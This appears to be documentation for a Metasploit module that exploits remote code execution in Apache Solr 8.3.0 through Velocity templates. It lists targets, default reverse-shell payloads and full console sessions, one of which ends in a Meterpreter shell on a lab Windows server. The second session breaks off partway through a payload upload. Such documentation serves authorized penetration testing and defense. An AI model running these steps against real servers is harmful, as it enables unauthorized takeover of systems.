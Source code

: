 *nix systems have 2 targets:
1. Unix (in memory): Uses command execution. Payload defaults to `cmd/unix/reverse_bash`. Output may be returned depending on payload used.
2. Linux (dropper): Uses `CmdStager`. Payload defaults to `linux/x86/meterpreter/reverse_tcp`

## Examples

### Windows Server 2019 Datacenter, fully patched, Solr 8.3.0, no authentication, using PowerShell
```
msf > use exploit/multi/http/solr_velocity_rce
msf exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.155
RHOSTS => 192.168.137.132
msf exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf exploit(multi/http/solr_velocity_rce) > set TARGET 2
TARGET => 2
msf exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444
[*] Found Apache Solr 8.3.0
[*] OS version is Windows Server 2019 amd64 10.0
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[+] Found Powershell at C:\Windows\System32\WindowsPowerShell\v1.0\
[*] Sending stage (180291 bytes) to 192.168.137.155
[*] Meterpreter session 1 opened (192.168.137.128:4444 -> 192.168.137.155:50210) at 2020-03-29 00:04:01 +0800

meterpreter > sysinfo
Computer        : 2K19DTCTR
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
gSystem Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```

### Windows Server 2019 Datacenter, fully patched, Solr 8.3.0, no authentication, using CmdStager
```
msf > use exploit/multi/http/solr_velocity_rce
msf exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.155
RHOSTS => 192.168.137.132
msf exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf exploit(multi/http/solr_velocity_rce) > set TARGET 3
TARGET => 3
msf exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444
[*] Found Apache Solr 8.3.0
[*] OS version is Windows Server 2019 amd64 10.0
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[*] Sending CmdStager payload...
[*] Command Stager progress -   7.05% done (7160/101541 bytes)
```